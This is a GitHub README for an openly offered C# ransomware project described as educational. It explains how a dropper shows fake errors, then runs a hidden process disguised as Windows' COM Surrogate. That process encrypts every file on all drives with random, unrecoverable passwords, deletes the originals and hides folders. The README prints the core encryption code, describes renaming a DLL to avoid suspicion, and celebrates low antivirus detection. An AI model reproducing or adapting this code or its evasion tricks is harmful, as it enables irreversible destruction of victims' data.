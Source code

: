 # Ransomware

Ransomware is a project written in C# 4.6.2 and shows how ransomeware generally works. This repository should be used for educational reasons only!!

[![Build status](https://ci.appveyor.com/api/projects/status/m435h8vg3m6uwdv2?svg=true)](https://ci.appveyor.com/project/SeppPenner/ransomware)
[![GitHub issues](https://img.shields.io/github/issues/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/issues)
[![GitHub forks](https://img.shields.io/github/forks/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/network)
[![GitHub stars](https://img.shields.io/github/stars/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/stargazers)
[![GitHub license](https://img.shields.io/badge/license-AGPL-blue.svg)](https://raw.githubusercontent.com/SeppPenner/Ransomware/master/License.txt)

## Folders
The [Setup](https://github.com/SeppPenner/Ransomware/blob/master/Setup) folder contains a [Inno Setup](http://www.jrsoftware.org/isinfo.php) script and the installer.

The [BeforeSetup](https://github.com/SeppPenner/Ransomware/blob/master/BeforeSetup) folder contains the files the setup installs.

The [Projects](https://github.com/SeppPenner/Ransomware/blob/master/Projects) folder contains the C# source code.7

## The stuff behind
The LustigeFehler.exe file is the main exe. It will start and show some nonsense error messages. If it's not run in admin mode, it will crash with an error.
If the .exe is started in admin mode, it will start up a new hidden (can't be seen in the taskbar or as GUI) process called
[COM Surrogate](https://github.com/SeppPenner/Ransomware/blob/master/Projects/COM Surrogate) in the background.
Why **COM Surrogate**? - Because noone will ever expect a [standard Windows process](https://www.howtogeek.com/326462/what-is-com-surrogate-dllhost.exe-and-why-is-it-running-on-my-pc/) is running as a virus.
In the background, the our **Fake COM Surrogate.exe** will run and try to encrypt all files on all drives it finds. Additionally, it will **hide** all folders it finds.
Furthermore, the AES crypto library is obfuscated to the name **msvpc.dll** to avoid that suspicious users (who take a look into the install folder) get more suspicious.

How is this possible? - The following lines of code taken from [Main.cs](https://github.com/SeppPenner/Ransomware/blob/master/Projects/COM Surrogate/COM Surrogate/Main.cs) show the main **ransomware** code.
```csharp
private string GetRandomPassword()
{
	var alg = SHA512.Create();
	alg.ComputeHash(Encoding.UTF8.GetBytes(DateTime.Now.ToLongDateString() + _random.Next(int.MaxValue)));
	return BitConverter.ToString(alg.Hash);
}

private void Run()
{
	foreach (var drive in DriveInfo.GetDrives())
	{
		try
		{
			EncryptFs(drive.Name);
		}
		catch
		{
			// ignored
		}
	}
}

private void EncryptFs(string directory)
{
	foreach (var file in Directory.GetFiles(directory))
	{
		try
		{
			if (file == null) continue;
			Msvpc.UseE(GetRandomPassword(), file,
				Path.Combine(directory, Path.GetFileNameWithoutExtension(file)) + Resources.Ending);
			File.Delete(file);
		}
		catch
		{
			// ignored
		}
	}

	foreach (var dir in Directory.GetDirectories(directory))
	{
		HideDirectory(dir);
		EncryptFs(dir);
	}
}

private void HideDirectory(string dir)
{
	var di = new DirectoryInfo(dir);
	if ((di.Attributes & FileAttributes.Hidden) != FileAttributes.Hidden)
	{
		di.Attributes |= FileAttributes.Hidden;
	}
}

private bool IsElevated()
{
	var id = WindowsIdentity.GetCurrent();
	return id.Owner != id.User;
}
```

## Virustotal.com scans
Well, let's see what [virustotal.com](virustotal.com) shows us as information on this "virus":

* The dllhost.exe: https://www.virustotal.com/#/file/ff946d2667b9a51b477d3abcdb12177b732c27901e199731cfe21f9430fba568/detection -->  9 / 57 detections --> Very poor :D
* The LustigeFehler.exe: https://www.virustotal.com/#/file/18436c0625daad52a141eeb9f4d4cbfd94e54264fa949ec9597c84c4ad0b39bb/detection --> 0 / 57 detections, which is ok. It's clean.
* The LustigeFehler-Setup.exe: https://www.virustotal.com/#/file/31f5447fa6c498ab526f1686cb77778f41223d6783ccba4298f9580ce8dfa055/detection --> 11 / 58 detections --> Very poor :D

## Hint
Please don't try this software on your PC. It's for educational purposes only!!!!!!

Change history
--------------
* **Version 1.0.0.0 (2018-01-08)** : 1.0 release.
